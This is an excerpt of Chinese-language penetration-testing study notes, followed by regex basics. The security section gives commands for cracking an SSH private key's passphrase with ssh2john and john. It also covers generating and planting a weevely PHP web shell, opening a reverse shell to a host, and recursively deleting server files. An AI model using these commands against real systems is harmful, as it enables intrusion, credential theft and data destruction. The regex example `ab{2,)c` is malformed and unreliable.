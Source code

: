          2. 下载文件到本地路径
      
            ```shell
            get [remote_file] [local_dir]
            ```
      
   6. 爆破RSA文件的访问密码

      1. 将私钥文件转化为john可识别内容

         ```shell
         ssh2john id_rsa>[file_name]
         ```

      2. john爆破转化后私钥文件，获取访问私钥密码

         ```shell
         zcat /usr/share/wordlists/rockyou.txt.gz | john --pipe --rules [file_name]
         ```

8. 漏洞

   1. 中国菜刀，Web Shell漏洞
      1. 设定本地登录密码，生成后门文件，存储本地路径
      
         ```shell
         weevely generate [password] [local_path]
         ```
      
         > 文件以*.php*结尾；（服务器开启Htaccess后）文件以 *.img* *.htaccess*结尾
      
      2. 远程控制 Web Shell
         
         ```shell
         weevely [http://ip:port/backdoor_name.php] [password]
         ```
         
         1. 此前，通过方法将生成的木马放入服务器，一般放在网站根目录 `/var/www/html/backdoor.php`，其余目录需对应更改URL
         2. 常用命令（渗透成功后）
            1. 打开虚拟终端：`:shell.sh`
            2. 获取系统基本信息：`:system.info`
            3. 查看php配置信息：`:audit.phpconf`
            4. 建立反弹shell到端口：`:backdoor.reverstcp [host_ip] [port]`
            5. 删除文件：`:file.rm [filename]`
               1. `-recursive`：干掉服务器
      
   3. 抓包工具
      1. Burp Suite：[利用木马远程控制服务器](https://www.cnblogs.com/cainiao-chuanqi/p/14352805.html)

#### 正则表达式

> 于给定文本中检索表达式本身，而表达式的某些字符有修饰意义，表达式即为正则表达式

1. 限定符
   1. `ab?c` ：匹配 `abc`，其中 `b` 可有可无
   2. `ab*c`：匹配 `abc`，其中 `b` 可多于一个（可没有）
   3. `ab+c`：匹配 `abbc`，其中 `b` 必须出现（不计数量）
   4. `ab{3}c`：匹配 `abbbc`
      1. `ab{2,6}c`：匹配 `abbc`，其中 `b` 出现二至六次
      2. `ab{2,)c`：匹配字符串 `abbc`，其中 `b` 出现大于等于二次
   5. `(ab)+c`：匹配 `ababc`，其中 `ab` 必须出现多次
2. 或算符
   1. `a(b|c)`：匹配 `ab` 或者 `ac`
3. 方括号限定符
   1. `[abc]`：匹配任何只由 `abc` 组成的内容
   2. `[a-z]`：匹配只由 `a` 到 `z` 的小写字母组成的内容
   3. `[A-Z]`：匹配只由 `A` 到 `Z` 的大写字母组成的内容
   4. `[0-9]`：匹配只有数字的内容
   5. `[^0-9]`：匹配没有数字的内容
   6. `[0-9A-Z]`：可混用，同上
4. 元字符